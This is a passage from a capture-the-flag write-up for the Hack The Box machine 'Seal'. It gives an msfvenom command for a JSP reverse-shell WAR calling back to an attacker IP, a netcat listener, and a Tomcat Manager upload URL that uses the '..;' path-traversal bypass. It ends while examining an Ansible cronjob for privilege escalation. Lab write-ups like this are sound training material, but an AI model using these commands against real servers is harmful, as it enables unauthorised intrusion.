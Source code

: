 ### Deploying the WAR File

Getting code execution in the Tomcat Manager is fairly trivial. We simply need to generate a WAR file containing our reverse shell, then upload and activate it in the manager. The only caveat here is, that we need to intercept the upload request in Burp and change the URL to include our Path Traversal. Otherwise, we will get a 403 and the uploads fails.

First, we generate our payload with msfvenom and set up our netcat listener.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f war -o shell.war
nc -nvlp 443
```

We start up Burp, enable the Proxy and deploy our WAR file. Be sure to change the POST URL to something like:

```
POST /manager/status/..;/html/upload?org.apache.catalina.filters.CSRF_NONCE=96798E7C3576B35AC1919B0792CF5A23 HTTP/1.1
```

We can then trigger the shell by browsing to https://seal.htb/shell/ and receive a session as the `tomcat` user!

![Shell as tomcat](/images/writeups/htb-seal/tomcat_shell.png)

### Shell as luis

Checking out the running processes shows a cronjob being executed by the root user. 

![Cronjob](/images/writeups/htb-seal/ansible.png)

It seems to run an `ansible playbook` with the privileges of `luis`. The playbook is located at `/opt/backups/playbook/run.yml`.

```yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```
